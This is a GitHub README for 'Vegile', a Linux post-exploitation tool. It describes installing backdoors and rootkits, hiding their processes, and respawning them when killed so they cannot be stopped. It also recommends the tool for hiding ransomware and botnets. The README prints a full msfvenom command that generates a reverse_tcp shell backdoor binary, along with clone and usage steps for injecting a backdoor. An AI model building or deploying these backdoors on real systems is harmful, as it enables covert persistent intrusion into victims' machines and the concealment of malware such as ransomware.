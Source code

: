 # Vegile - Ghost In The Shell

[![Version](https://img.shields.io/badge/Vegile-Beta-brightgreen.svg?maxAge=259200)]()
[![Stage](https://img.shields.io/badge/Release-Stable-brightgreen.svg)]()
[![Build](https://img.shields.io/badge/Supported_OS-Linux-orange.svg)]()

**Vegile** is a tool for **Post exploitation** Techniquesin linux. Post Exploitation techniques will ensure that we maintain some level of **access and can potentially** lead to **deeper** footholds into our targets **trusted network**.


<img src="https://user-images.githubusercontent.com/17976841/34869598-fd7cf00e-f7b9-11e7-950e-a4cb61364c03.png" ></img>

### Donate
- If this project very help you to penetration testing  and u want support me , you can give me a cup of coffee :)
- [![Donation](https://img.shields.io/badge/bitcoin-donate-yellow.svg)](https://blockchain.info/id/address/1NuNTXo7Aato7XguFkvwYnTAFV2immXmjS)

## :book: How it works

This tool will setting up your ***backdoor/rootkits***
when backdoor already setup it will be ***hidden*** your spesisifc process,***unlimited*** your ***session*** in metasploit and ***transparent***. Even when it **killed**, it will **re-run again**. There always be a procces which while **run** another process,So we can assume that this procces is **unstopable** like a **Ghost in The Shell**

#### READ THIS

- right now i just tested backdoor with msfvenom command using reverse_shell and my manual backdoor for linux [ **its work** ] 
- **msfvenom -a x86 --platform linux -p linux/x86/shell/reverse_tcp LHOST=IP LPORT=PORT -b "\x00" -f elf -o NAME_BACKDOOR**
- for hidden process you can use for **rootkits,backdoor,ransom and botnet** { sh,python,perl,exe and binary }.
- Victim  target all linux distribution include ( **base32** and **base64** in their system ) 



## Getting Started
1. ```git clone https://github.com/Screetsec/Vegile.git```
2. ```cd Vegile```
3. ```chmod +x Vegile```

## Using Vegile
Running Vegile without any parameters will give a helpful list of the most common options. you can use command : 

- Vegile -i / --inject  **[backdoor/rootkit]**
- Vegile -u / --unlimited **[backdoor/rootkit]**
- Vegile -h / --help 


## :octocat: Credits

- Thanks to allah 
- Dracos Linux from Scratch Indonesia ( Awesome Penetration os ), you can see in http://dracos-linux.org/ 
- WingkoColi , Reversing ID , IndoXploit , Backbox Indonesia and Indonesia Backtrack Team .
- Offensive Security for the awesome OS ( http://www.offensive-security.com/ )
- http://www.kali.org/ Kali Linux
- www.github.com/gianlucaborello to give a reference 
- And another open sources tool in github



## Disclaimer

***Note: modifications, changes, or alterations to this sourcecode is acceptable, however,any public releases utilizing this code must be approved by writen this tool ( Edo -m- ).***
